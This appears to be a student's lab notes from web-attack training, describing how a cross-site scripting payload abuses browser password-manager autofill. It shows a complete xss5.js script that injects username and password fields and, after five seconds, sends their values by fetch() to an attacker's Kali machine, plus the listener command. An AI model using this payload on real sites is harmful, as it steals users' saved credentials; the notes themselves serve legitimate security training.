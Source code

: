 -----

#### Stealing Saved Passwords

As security experts, we often recommend users use a password manager to store their passwords. However, some password managers will conveniently auto-fill any login prompt as soon as it's displayed on screen. We can take advantage of this to steal the credentials a user has stored in their password manager. In most situations, this can be done almost instantly and inconspicuously.

Not all password managers will auto-fill login prompts, but many of the built-in browser password managers will (like the ones found in Chrome). Typically, they search for the combination of a username (or email) input and an input that has the _type_ attribute set to "password". As attackers, we could create a similar form for a browser to auto-fill, which allows us to steal the credentials and exfiltrate them out.

While we could add the HTML input tags in the script payload, we'll keep everything in the xss.js file instead to stay organized. In this file, we'll have to create a username and password input. Once the inputs are added to the page, the password manager would automatically fill them with the saved credentials. After some time, we'll send the value of the input back to our Kali machine.

```bASH
┌──(root💀gobots)-[05Aug2024 20:48:35]-[/home/kali/SUT/OSWA/xss]
└─# vim xss5.js

┌──(root💀gobots)-[05Aug2024 20:48:46]-[/home/kali/SUT/OSWA/xss]
└─# cat xss5.js 
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){ 
    fetch("http://192.168.45.236:80/k?u=" + u.value + "&p=" + p.value)
}, 5000);
                 
┌──(root💀gobots)-[05Aug2024 20:49:27]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now rendering from the victim side, 
![[Pasted image 20240805171112.png]]
the credentials pop up in the top left.
![[Pasted image 20240805171158.png]]
after 5 seconds the credentials get populated in the `python3 http.server`
![[Pasted image 20240805171224.png]]
